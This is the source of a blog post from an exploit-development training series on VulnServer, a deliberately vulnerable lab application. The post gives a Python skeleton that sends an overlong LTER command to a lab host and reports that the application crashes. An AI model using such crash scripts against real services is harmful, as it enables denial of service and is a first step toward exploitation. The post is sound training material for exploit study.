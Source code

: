 ```yaml
---
layout: post
title:  "[VulnServer] Exploiting LTER Command using Restricted Characters"
date:   2018-06-30
categories: [exploitdev, osceprep]
---
```


The following skeleton was used for the exploitation of the `LTER` command.
```python
#!/usr/bin/python

import os
import sys
import socket

host = "192.168.1.129"
port = 9999

buffer = "A"*3000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
print "[*] Sending exploit..."
s.send("LTER /.:/" + buffer)
print s.recv(1024)
s.close()
```

Sending this code caused the application to crash.
![Crash](/static/img/06/01.png)
